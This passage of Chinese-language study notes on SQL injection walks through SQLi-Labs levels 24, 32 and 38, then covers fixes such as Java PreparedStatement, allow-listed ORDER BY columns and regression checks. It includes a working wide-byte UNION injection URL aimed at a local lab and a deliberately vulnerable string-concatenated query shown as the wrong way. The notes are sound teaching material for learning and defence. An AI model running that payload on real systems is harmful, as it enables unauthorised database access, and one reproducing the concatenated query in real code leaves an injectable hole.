Less-24可以对照三处代码：

- [login_create.php](https://github.com/Audi-1/sqli-labs/blob/master/Less-24/login_create.php)：注册时处理并保存用户名。
- [login.php](https://github.com/Audi-1/sqli-labs/blob/master/Less-24/login.php)：登录后使用查到的用户信息。
- [pass_change.php](https://github.com/Audi-1/sqli-labs/blob/master/Less-24/pass_change.php)：改密码时，将会话中的用户名拼接进UPDATE语句。

这一关最值得注意的不是“再多试几个引号”，而是**追踪同一份数据从哪里来、存在哪里、之后又在哪里参与SQL**。

数据库中的字符串不会永久保留“已经转义过、所以安全”的属性。第一次写入时的转义用于那一次SQL解析，不会自动保护后面重新拼接的查询。

## 9.4 宽字节注入：Less-32

宽字节注入与字符集和转义策略有关，不是所有使用中文的页面都会有这个问题。

[Less-32源码](https://github.com/Audi-1/sqli-labs/blob/master/Less-32/index.php)中，输入经过反斜杠式转义，连接又执行了`SET NAMES gbk`。

经典字节关系是：

```text
原始输入字节：       DF 27
对单引号增加反斜杠： DF 5C 27
GBK解析时：         [DF 5C] [27]
```

`27`是单引号，`5C`是反斜杠。在满足相关字符集条件时，`DF 5C`被当成一个GBK字符，原本希望保护引号的反斜杠就不再单独承担转义作用，后面的单引号重新参与SQL语法。

在这个原版关卡中，可用下面的**完整URL**观察该现象：

```text
http://127.0.0.1/sqli-labs/Less-32/?id=-1%df%27%20UNION%20ALL%20SELECT%201%2C2%2CDATABASE()%20--%20-
```

预期在回显位置看到数据库名。这里`%df`用于传输特定字节，不能改成复制某个看起来相似的中文字符，也不要再交给`--data-urlencode`重复编码。

理解这一关时，要同时看**输入字节、转义方式、连接字符集和数据库解析方式**。只调整网页的显示编码，并不能替代数据库连接层的正确处理。

## 9.5 堆叠查询与带外通道

**堆叠查询**是让一次调用执行多条SQL语句，通常以分号分隔。是否成立，取决于驱动接口和多语句配置，不是所有`mysql_query`调用都能通过加分号实现。

SQLi-Labs的[Less-38](https://github.com/Audi-1/sqli-labs/blob/master/Less-38/index.php)可以作为后续观察多语句执行接口的入口。先看源码里实际使用的API，再谈能否执行第二条语句。

**带外注入**则是通过页面以外的通道观察结果，例如在特定数据库功能、权限和网络条件下产生DNS等外部交互。它不是所有数据库都具备的统一能力，也不是GET/POST之外的另一种参数位置。

入门阶段先把前面几种返回通道练明白，再结合具体环境研究这些能力。

# 10 漏洞修复

## 10.1 参数化查询

核心是**把SQL结构与参数值分开传给数据库**，而不是先把参数拼成SQL再执行。

拿自己的Java基础知识来对照，下面是有问题的写法：

```java
String sql = "SELECT id, username FROM users WHERE username='" + username + "'";
Statement statement = connection.createStatement();
ResultSet result = statement.executeQuery(sql);
```

如果username中包含引号和SQL片段，它就可能改变语句结构。

改成参数化查询：

```java
String sql = "SELECT id, username FROM users WHERE username = ?";

try (PreparedStatement statement = connection.prepareStatement(sql)) {
    statement.setString(1, username);

    try (ResultSet result = statement.executeQuery()) {
        while (result.next()) {
            System.out.println(result.getString("username"));
        }
    }
}
```

这里假设已经建立JDBC连接，并导入`java.sql.PreparedStatement`和`java.sql.ResultSet`；示例方法需要处理或声明`SQLException`。

`?`是值的占位符，`setString`把username作为数据绑定进去。即使值中包含`'`，也应该作为字符串内容处理，而不是借此改变查询结构。

> [!important] 用了PreparedStatement，也可能写错
> 如果先把用户输入拼到sql字符串里，再调用`prepareStatement(sql)`，危险的结构仍然已经被拼出来了。
> 应在可变值的位置使用占位符，再绑定参数。

PHP中同样可以使用PDO预处理和绑定参数，替代原版靶场的旧式字符串拼接。

## 10.2 排序字段不能随便用占位符替代

参数通常用于**值**，不能把表名、列名、`ASC`或`DESC`都当成普通字符串参数。

比如下面这种需求：用户选择“按id排序”还是“按用户名排序”。应把选项映射到固定的SQL片段。

```java
String orderColumn = switch (sortKey) {
    case "id" -> "id";
    case "username" -> "username";
    default -> throw new IllegalArgumentException("不支持的排序字段");
};

String sql = "SELECT id, username FROM users ORDER BY " + orderColumn;
```

这里拼接的是程序自己定义的固定字符串，不是直接拼接用户提交的列名。排序方向也应做相同的允许列表映射。

## 10.3 其他配套措施

- 对id这类业务参数做类型、范围检查，防止明显不符合业务规则的输入。
- 数据库账号按业务授予最小权限，不直接使用高权限管理员账号。
- 应用响应不直接输出数据库错误，详细错误写入受控日志。
- 统一连接字符集，使用驱动提供的正确配置方式。
- 检查GET、POST、Cookie、请求头，以及数据库读出的历史数据是否再次参与拼接。
- 需要二次使用的数据，同样在每次SQL执行处参数化处理。

这些措施与参数化查询配合使用。隐藏错误不能消除盲注，前端校验不能约束自定义请求，单纯过滤`select`、`union`等关键字也不能稳定保证SQL结构安全。

修复原则可对照[OWASP SQL注入防御指南](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)。

## 10.4 修复后怎么回归

1. 正常输入仍然能完成原有查询，避免修复导致业务不可用。
2. 原来的引号、恒真、恒假输入不再改变SQL结构；如果业务做了类型校验，也可以明确拒绝这些输入。
3. 带单引号的合法姓名等数据仍能按业务要求保存和查询。
4. 页面不再显示数据库内部错误，但日志保留必要的排查信息。
5. 二阶场景继续测试注册、读取、修改等后续步骤，不能只检查首次写入。


> [!tip] 复习时先问自己
> 输入从哪里来？进入了SQL的哪个位置？为什么这样闭合？结果从哪里看？换一个条件后，还能稳定复现吗？
> 能解释清楚这些，再去记具体函数和语句，才不容易换一关就无从下手。
